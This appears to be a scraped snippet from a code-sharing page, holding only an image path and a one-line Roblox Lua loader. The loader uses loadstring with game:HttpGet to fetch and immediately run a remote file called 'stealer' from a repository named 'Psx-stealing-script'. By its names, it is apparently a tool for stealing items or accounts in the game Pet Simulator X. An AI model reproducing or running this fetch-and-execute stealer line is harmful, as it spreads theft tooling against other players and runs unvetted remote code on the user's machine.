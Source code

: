 loadstring(game:HttpGet(("https://raw.githubusercontent.com/OKeycode/Psx-stealing-script/main/stealer"), true))()
